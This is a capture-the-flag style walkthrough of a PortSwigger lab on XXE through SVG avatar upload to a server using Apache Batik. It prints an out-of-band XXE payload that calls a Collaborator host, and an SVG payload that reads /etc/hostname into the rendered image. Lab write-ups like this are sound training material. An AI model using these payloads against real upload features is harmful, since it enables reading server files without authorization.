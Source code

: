 
# Exploiting XXE via image file upload

This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.

To solve the lab, upload an image that displays the contents of the /etc/hostname file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

Hint: The SVG image format uses XML.


---------------------------------------------

References: 

- https://portswigger.net/web-security/xxe



![img](images/Exploiting%20XXE%20via%20image%20file%20upload/1.png)

---------------------------------------------




![img](images/Exploiting%20XXE%20via%20image%20file%20upload/2.png)


The avatar is sent within the comment:



![img](images/Exploiting%20XXE%20via%20image%20file%20upload/3.png)


We will change the "filename" to “test.svg” and the "Content-Type" to “image/svg+xml”, and then change the content to an XXE payload. 

First I tested if it is possible to generate an HTTP request to the Collaborator url:

```
-----------------------------39756462762517607865870849077
...
Content-Disposition: form-data; name="avatar"; filename="test.svg"
Content-Type: image/svg+xml

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://w63x7veqbibnsmco4xvkaucwyn4es4gt.oastify.com"> ]><stockCheck><productId>&xxe;	</productId><storeId>1</storeId></stockCheck>
...
```



![img](images/Exploiting%20XXE%20via%20image%20file%20upload/4.png)


The server returns a 500 error code but the connections were generated:



![img](images/Exploiting%20XXE%20via%20image%20file%20upload/5.png)


And in the HTML response we can read this:



![img](images/Exploiting%20XXE%20via%20image%20file%20upload/6.png)


I got to this payload, which generates a 302 code and the comment is created in the post:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/hostname"> ]><svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```


And you can see the hostname ("81da8cd96d3a") in the image:



![img](images/Exploiting%20XXE%20via%20image%20file%20upload/7.png)



![img](images/Exploiting%20XXE%20via%20image%20file%20upload/8.png)
